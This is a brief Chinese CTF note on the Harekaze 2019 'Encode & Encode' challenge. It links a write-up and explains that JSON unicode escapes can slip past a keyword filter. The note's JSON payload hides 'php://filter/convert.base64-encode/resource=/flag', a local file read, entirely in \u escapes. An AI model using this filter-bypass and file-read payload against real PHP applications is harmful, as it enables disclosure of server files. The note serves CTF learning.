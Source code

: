 # WP
[https://github.com/swv-l/writeups/blob/master/2019-harekaze-encode-and-encode.md](https://github.com/swv-l/writeups/blob/master/2019-harekaze-encode-and-encode.md)
# 知识点
`json`支持适用`unicode`进行转义<br />所以`payload`如下
```json
{"page":"\u0070\u0068\u0070\u003a\u002f\u002f\u0066\u0069\u006c\u0074\u0065\u0072\u002f\u0063\u006f\u006e\u0076\u0065\u0072\u0074\u002e\u0062\u0061\u0073\u0065\u0036\u0034\u002d\u0065\u006e\u0063\u006f\u0064\u0065\u002f\u0072\u0065\u0073\u006f\u0075\u0072\u0063\u0065\u003d\u002f\u0066\u006c\u0061\u0067","5vcqh7vy7fi":"="}
```
